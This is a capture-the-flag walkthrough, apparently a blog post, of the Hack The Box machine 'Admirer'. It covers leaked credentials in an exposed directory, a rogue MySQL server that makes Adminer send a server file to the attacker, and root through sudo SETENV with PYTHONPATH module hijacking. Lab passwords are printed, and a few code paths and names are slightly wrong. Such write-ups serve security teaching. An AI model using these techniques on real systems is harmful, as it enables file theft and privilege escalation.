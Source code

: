 ```yaml
---
layout: page
title:  "ADMIRER"
permalink: /admirer/
comments: true
---
```

[Or not, back to HOME!](/)<br>
<br>
<br>
<br>
<br>
# ADMIRER
{: .fw-300 .lh-0 }
#### SUMMARY
{: .fs-6 .fw-300 .lh-0 }
<!-- excerpt-start -->
A python script, which imports module without explicitly setting the search path, can be called by a command. Such command has tag SETENV enabled and can be run as superuser, if by user waldo.<br>
<br>
Waldo uses the same credential for logging into the box and configuring website.<br>
<br>
Despite the MySQL server on the box only listens to local clients, one local client called Adminer uses a web page as interface, and such web page is for some reason available to everyone.<br>
<!-- excerpt-end -->
<br>
<br>
<br>
<br>
<br>
#### REFERENCE
{: .fs-6 .fw-300 .lh-0 }
[Rogue MySql Server](https://github.com/allyshka/Rogue-MySql-Server)<br>
<br>
<br>
<br>
<br>
<br>
#### WALKTHROUGH
{: .fs-6 .fw-300 .lh-0 }
[Skip to obtaining foothold!](/admirer/#foothold)<br>
[Skip to obtaining root!](/admirer/#root)<br>
<br>
<br>
Surface check.<br>
`nmap -sV -sC admirer.htb -oA tcp_t1k -v; searchsploit --nmap tcp_t1k.xml -v`<br>
<details close markdown="block">
<summary>
Edit searchsploit to make option nmap somewhat usable. Hope for minor typo fix but end up everywhere. Manual search from now on.
</summary>
Check out how xml is parsed in function `nmapxml()`.<br>
```bash
xmllint --xpath '//address/@addr|//service/@name|//service/@product|//service/@version' "${FILE}" \
    | sed -e $'s/addr=/\\\n[IP] /g;   s/name=/\\\n[NAME] /g;   s/product=/\\\n[PRODUCT] /g;s/" version="/\\\n[VERSION] /g;   s/"//g' \
```
`addr`, `name`, `product`, `version` are all xml attributes that need to be picked up by `sed` expression string, yet only `s/" version="/\\\n[VERSION] /g;` has this weird quoted space situation going on. Space removed.<br>
```
[i] searchsploit openssh 7 4p1 debian 10 deb9u7
```
It's not `openssh 7.4p1 debian 10+deb9u7`?<br>
Check out function `searchsploitout()`, which is where those formatted version strings go.<br>
```bash
## Try and remove terms that could confuse searches
software=$( echo "${software}" | sed -e 's/[^a-zA-Z0-9]/ /g' )
```
Non-alphanumeric characters are swapped with spaces, to not "confuse searches". Manual search term `openssh 7.4p1`, the search does not seems to be confused tho.<br>
```
------------------------------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- -------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                               | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                         | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation   | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                               | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                   | linux/remote/45939.py
------------------------------------------------------------------------------------------------------- -------------------------
```
Line commented out.<br>
```
[-] Skipping output: openssh 7.4p1   (Too many results, 100+. You'll need to force a search: searchsploit openssh 7.4p1
```
8, as in the block before, has turned into "Too many results, 100+".<br>
Locate such string, and read code above.<br>
```bash
arg="-t"   ## Title search by default!
```
Manual search term `openssh 7.4p1` but this time with `-t`.<br>
```bash
searchsploit -t 'openssh 7.4p1' | wc -l
226
```
Maybe it is the non-alphanumeric character dot that "confuse searches".<br>
```bash
searchsploit -t 'openssh 7 4p1' | wc -l
472
```
Void, void that arg!<br>
Then the auto-search finally behaves like a manual one: `openssh 7.4p1` is tried, then `openssh 7.4p1 debian` and `openssh 7.4p1 debian 10+deb9u7` and.<br>
```
[-] Skipping term: apachehttpd2.4.25
```
</details>
Per nmap, ftp is open on port 21, ssh is open on port 22, and http is open on port 80 with `robots.txt` of one disallowed entry `/admin-dir`.<br>
<br>
<br>
```
ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:scum):^C
```
Local username is somehow prompted. Maybe if an ftp cred is obtained later on, use it on ssh or su. Anyways, need cred so leave it for now.<br>
<br>
<br>
The blog has pictures and a feedback box with html comment "Still under development... This does not send anything yet, but it looks nice!".<br>
<details close markdown="block">
<summary>
Screenshot of the blog.
</summary>
![](/assets/images/admirer/blog.png)
[Seriously, listen to album The Third Chimpanzee. Thank the creators later.]<br>
![](/assets/images/admirer/feedback.png)
[Dead buttons.]<br>
</details>
`gobuster` under the forbidden `/admin-dir`: `contacts.txt` and `credentials.txt`.<br>
[There actually is a comment in `robots.txt`: "This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo"; with such info one could grep `contact` and `cred` in wordlists and significantly reduce bruteforce attempts.]<br>
<details close markdown="block">
<summary>
Content of two files.
</summary>
```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb
# Amy
Email: a.bialik@admirer.htb
# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb
# Bernadette
Email: b.rauch@admirer.htb

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
Full names except `w.cooper`, job titles, three creds, and that there could be a WordPress and an "internal" mail service. [No idea how "internal" this mailing stuff is but, something that is supposed to be internal is totally out there, as we'll see later.]<br>
</details>
<br>
<br>  
Fail to ssh in as `ftpuser`.<br>  
<details close markdown="block">
<summary>
Message returned.
</summary>
```
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Connection to admirer.htb closed.
```
Cred should be right, as otherwise the message will be "Permission denied, please try again.", but the connection is closed right after above message being sent.<br>
Send command via ssh does not stop the connection from closing, does not even stall it a bit.<br>
Check out manual of this `vsFTPd 3.0.3`. This `ftpuser` seems to be a "virtual user": "does not exist in /etc/shadow file" i.e. it's only for this ftp system. Still no idea why the above message is sent but.<br>
</details>
```
ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:scum): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
The file share seems to be the source of the website. [Information overload all of a sudden.]<br>
[It's intended that after some digging, the comment in `utility-scripts/db_admin.php`, which is "TODO: Finish implementing this or find a better open source alternative", would remind you field people of a popular application Adminer, so you'd try `adminer.php` under this `utility-scripts/` and voila. Me without experiences just cry for help a lot then voila. Anyways.]<br>
<br>
<br>
<a id="foothold"></a>
<details close markdown="block">
<summary>
Screenshot of the interface offered by Adminer.
</summary>
![](/assets/images/admirer/adminer.png)
</details>
Checking out the database of the blog, using cred in `index.php` file from the ftp share, to be honest, is not even attractive here, as the blog only contains pictures and texts, shown in `dump.sql` from the ftp share. [Can it be that after the database is dumped, it's used for other purposes, which will lead us into the box? Ehh.]<br>
`searchsploit adminer 4.6.2`: no results.<br>
[Hit wall, and don't want to go mix-up-creds-and-try-each-combo-every-frigging-where route. Sure sense googling with version number would provide a quick way out but. Decide to first reason a bit about it myself. As I really don't know shits, and database applications they only aim for storing stuff (and give them back, always give them back), which should be the simplest application to understand.]<br>
<br>
<br>
Start of skiddie wild guess. [You have been warned, and corrections welcome.]<br>
Database applications store and give back stuff, that is, write and then read file in the file system, basically a fancy `vi` and a fancy `cat`. They also provide a way to search through, that is, give back only part of the stuff that has been stored, basically add a fancy `awk` and a fancy `grep`. Maybe that's the selling point of a database over a lame flat file: whatever required will be found out and returned, based on how customers would like to ask for stuff a query language is invented, and then this process of selecting what's asked is optimized towards speed, maybe stuff that's asked for  together a lot simply get fancy `vi`ed together, maybe fancy `grep` would go hoppity hop across lines following some rule instead of going through them one after another.<br>
A database is just a fancy file. Well maybe a fancy file is achieved by one lame file, or many lame files, or maybe fancy files and lame files match in some weird ass way that is good for speed. Still, databases are just fancy files, and a database application simply do fancy `vi` `cat` `awk` `grep` on lame files to give you this delusion of fancy files out of nowhere.<br>
Sanity check. Does the above wild guess match the user experience that I have had?<br>
I start with typing in terminal, say, `mysql -u` and yeee forgot to guess about authentications.<br>
<br>
<br>
Username and password make sense here, afterall files, even the fancy ones, need access control unless this world does not have secrets, well it very much has secrets so. To achieve the decision of who can access a fancy file, well a concept of who need to exist in the first place like duhh, and a username and a password is in this case what makes a who. Just like a lame file system, file permission stuff.<br>
So basically a database application is a fancy file system where you can log in and read write some fancy files! If I recall correctly, it even has its own cute root: king of this limited land and nothing across the border, which is kinda lame, afterall brilliant root, the one of the underlying blunt flat lame yet full-scale file system, can access everything, and the almighty database application from the cute root's point of view, is merely a normal user called `mysql` in the underlying world.<br>
<br>
<br>
At this point it becomes clear that, not having fancy cred only stops us from interacting with fancy file system and as I said earlier, they are ultimately just pictures and texts from the blog and we don't care about them anyways; not having fancy cred does *not* stop us from interacting with the underlying non-fancy file system, it is up to some other rules to stop us and they might just not.<br>
<br>
<br>
The returned stuff from the underlying file system, if any, has to be sent somewhere. It can't stay at any databases on target, as cred with write access there is needed but we don't have any, not to mention we have to read the same database later to get the info. Might as well set up our own database server, create a database x, and a cred saying "allowed to write database x here", and give this cred to database client `Adminer` so it can pass it to the database server on target. Once the server on target come with cred and successfully identified itself to the server on our box as someone who is "allowed to write database x here", we can then issue `LOAD DATA LOCAL` command to it, via `Adminer` of course as we simply lack of other interfaces, and that's it, data will be sent to database x, waiting to be read.<br>
To catch the returned stuff, our database server has to listen on traffic beyond those from localhost, which per my understanding, subject ourselves to the same attack that we're attempting on target. Pretty ironic. To avoid so, use a [pseudo server](https://github.com/allyshka/Rogue-MySql-Server).<br>
<details close markdown="block">
<summary>
Content of index.php returned.
</summary>
```
Enter filename to get [/var/www/html/index.php] > 
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 10.10.10.187:36528 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/index.php from 10.10.10.187:36528:
[...]
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
[...]
```
</details>
<br>
<br>
<a id="root"></a>
Then it's pretty smooth: cred reuse, hats time (it is `sudo -l` that worked).<br>
```
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
I used to assume all environment variables are automatically swapped by sudo, say `/home/bro` to `/home/another_bro`, now that I see `SETENV` appears at the place where `NOPASS` used to be, it seems that me the person who type the password, can also type in command line some syntax to set environment variables.<br>
<br>
<br>
<details close markdown="block">
<summary>
Content of /opt/scripts/admin_tasks.sh.
</summary>
```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi

# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")
echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```
</details>
User input limited to an option number, then it's up to the script to call some binaries. Full path specified, can't write to those path, can't write to those binaries either. `/opt/scripts/backup.py`, which is behind option 6, stands out as not being part of a standard install.<br>
<details close markdown="block">
<summary>
Content of /opt/scripts/backup.py.
</summary>
```python
#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
ake_archive(dst, 'gztar', src)
```
</details>
`from shutil import make_archive`, so copy `/usr/bin/python2.7/shutil.py` to a directory of choice, locate function `make_archive` and sneak in payload of choice, then `sudo -E PYTHONPATH=<dir_of_choice> /opt/scripts/admin_tasks.sh 6`.<br>
<br>
<br>
That's it for the box.
